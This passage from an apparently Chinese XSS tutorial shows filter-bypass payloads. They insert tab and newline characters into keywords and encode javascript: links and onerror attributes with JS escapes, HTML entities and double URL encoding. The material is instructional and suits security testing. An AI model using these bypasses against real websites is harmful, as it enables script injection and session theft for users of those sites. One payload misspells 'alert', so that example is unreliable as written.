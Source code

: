 ```
<a/href="javascript:alert(/xss/)">touch me</a>
</src='#'/onerror='alert(/xss/)'>
```



### 4.2.5、填充Tab

在一些关键字内，可以插入**回车符与Tab符**来绕过关键字检测。

```
<img src	='#' onerror='alert(/xss/)'>		//有时候tab符插在关键字内会失效。
<a href="ja	va	
script:alert(/xss/)">touch me</a>
```



### 4.2.6、编码绕过

可以对标签属性值进行转码，来实现绕过，转码后的要加分号。

**JS编码**

JS提供了四种字符编码的策略：

- 三个八进制数字，如果个数不够，在前面补0,例如“e”的编码为“\145”
- 两个十六进制数字，如果个数不够,在前面补0,例如“e”的编码为“\x65"。
- 四个十六进制数字,如果个数不够,在前面补0,例如“e”的编码为“\u0065”。
- 对于一些控制字符，使用特殊的C类型的转义风格(例如\n和\r)



**HTML 实体编码**

命名实体：以&开头，以分号结尾的，例如<的编码是`&lt;`。
字符编码：十进制、十六进制ASCII码或Unicode字符编码，样式为`&#数值;`例如`<`可以编码为`&#060;`和`&#x3c;`。



**URL编码**

这里的URL编码，也是两次URL全编码的结果。如果alert被过滤，结果为`%25%36%31%25%36%63%25%36%35%25%37%32%25%37%34`。在使用XSS编码测试时，需要考虑HTML渲染的顺序，特别是针对多种编码组合时，要选择合适的编码方式进行测试。



另外，可以将以下字符插入到任意位置中：

Tab ==> `&#9;`

换行 ==> `&#10;`

回车 ==> `&#13;`

可以将以下字符插入到头部位置。

SOH ==> `&#01;`

STX ==> `&#02;`


```
//经过简单编码
<a href="j&#97;v&#x61;script:alert(/xss/)">click me!</a>

//经过插入字符
<A href="&#01;j&#97;v&#x61;s&#9;c&#10;r&#13;ipt:laert(/xss/)">click me!</a>
```
